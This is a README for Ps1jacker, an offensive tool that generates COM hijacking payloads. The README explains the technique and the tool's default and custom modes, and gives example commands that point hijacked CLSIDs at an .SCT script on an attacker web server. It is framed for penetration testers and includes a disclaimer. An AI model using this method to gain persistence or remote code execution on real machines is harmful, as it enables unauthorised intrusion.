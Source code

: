# Ps1jacker
Ps1jacker is a tool for generating COM Hijacking payload.

![Ps1jacker screenshot](https://preview.ibb.co/hWmhD9/ps1jacker.png)

**WARNING: This tool is still in development - please report bugs!**

######  WHAT IS COM HIJACKING?
COM Hijacking is a method for an attacker to gain remote code execution or persistence on victims machine, by using legitimate Windows process'. 
The advantage of Ps1jacker is that it uses a method which allows the user to specify his/her script path on Web Server, which means there is no local
storage on victims machine involved in this process. 

######  DEFAULT METHOD [-hd]
The Default method will generate the payload for you without any of your user input. However, there are 2 precautions:
1. It will only work if you grab the file calc.SCT from examples directory and copy it to your victims machine exactly at `C:\\tools\\COM Testing\\`,
as the payload will be generated in a way, where it will expect the .SCT script to be located in that path.
2. This works only with using `MSPAINT.exe` (Paint). Meaning, victim has to open PAINT.exe in order for the payload to trigger.

Once you have done that, you can execute the powershell script on victims machine and it should generate all the registry entries for you.

######  CUSTOM METHOD [-p][-ch][-cf]
With the custom method you may specify your own .SCT script and decide whether:
1. Host it on your webserver: in this case you have to specify the path to the file on your server, eg. `http://<your_webserver_ip>/<your_sct_script>`
2. Host it on your victim's machine: in this case you specify the path where your .SCT script is residing on your victim's machine.
You also have to specify your own CLSID which you will hijack.
Same goes for the unique Fake CLSID. And remember, it has to be really unique, otherwise you will trigger an existing process in Windows instead of your
script.

######  DISCLAIMER: 
Please do not use this tool for illegal activities. This tools should be used by pentesters to ease the generation of payload for COM Hijacking technique.


######  TEST 1:
This will generate a default payload that will open Calculator instead of MSPAINT. Be sure to have calc.SCT file from Examples folder within C:\tools\COM Testing\ on victim machine. Otherwise this method wont work.

`python ./ps1jacker.py -hd`

######  TEST 2:
Hijacking MSPAINT.exe by specifing custom parameters.

`python ./ps1jacker.py -p "http://<web_server_ip>/<your_sct_file>" -ch {926749FA-2615-4987-8845-C33E65F2B957} -cf {00000001-0001-0001-0001-0000DEADBEEF}`


